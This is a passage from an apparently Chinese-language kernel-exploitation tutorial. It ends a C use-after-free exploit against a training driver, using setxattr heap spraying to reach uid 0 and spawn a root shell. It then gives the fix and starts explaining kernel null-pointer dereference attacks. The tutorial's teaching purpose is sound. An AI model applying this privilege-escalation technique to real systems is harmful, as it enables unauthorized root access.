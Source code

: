         init_payload(spray_data, MMAP_SZ);
        fd=open("/sys/kernel/debug/drill/drill_act", O_WRONLY);
        act(fd,49);
        act(fd,50);
        act(fd,51);
        // MDL: echo '1' > /sys/kernel/debug/drill/drill_act
        // MDL: echo '2' > /sys/kernel/debug/drill/drill_act
        // MDL: echo '3' > /sys/kernel/debug/drill/drill_act
        
        // MDL: why do we call setxattr with such spray_data and PAYLOAD_SZ?
        ret = setxattr("./", "foobar", spray_data, PAYLOAD_SZ, 0);
        printf("setxattr returned %d\n", ret);

        // MDL: echo '2' > /sys/kernel/debug/drill/drill_act
        act(fd,50);

        if (getuid() == 0 && geteuid() == 0) {
            printf("[+] finish as: uid=0, euid=0, start sh...\n");
            run_sh();
            ret = EXIT_SUCCESS;
        } else {
            printf("[-] need heap spraying\n");
        }

        printf("[+] The End\n");

    end:
        if (fd >= 0) {
            ret = close(fd);
            if (ret != 0)
                perror("[-] close fd");
        }

        return ret;
    }

![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2022-5-18-%E7%A0%B4%E9%98%B2%E5%AE%9E%E8%B7%B55_kernel_pwn/7.png)

#### 阻止措施

我们只需要在释放该chunk后，将其指针指空就行。


### 空指针引用(Null Pointer Dereference)、零地址空间漏洞

当数据指针或代码指针是 NULL 时，使用其进行内存访问的时候， 就会触发空指针引用，导致程序崩溃。这种漏洞在用户态一般被认为只能进行 拒绝服务攻击，无法进行高阶漏洞利用。但是在内核中则不然.

具体原因是，其实空指针（0）内核是有资格创建chunk并访问的！！！

因为0地址本来就在内核的操控区内！！！

上面提到的驱动程序中，可以先申请一个chunk，然后将其callback置0，这样就能得到一个0指针。

如果什么都不做直接引用它，就会引起内核崩溃，操作系统直接卡死（这时候你需要重新来过）

因为内核虽然理论上能为访问0地址空间，但是如果你没有在该地址上创建一块内存区域，你访问它还是会炸。

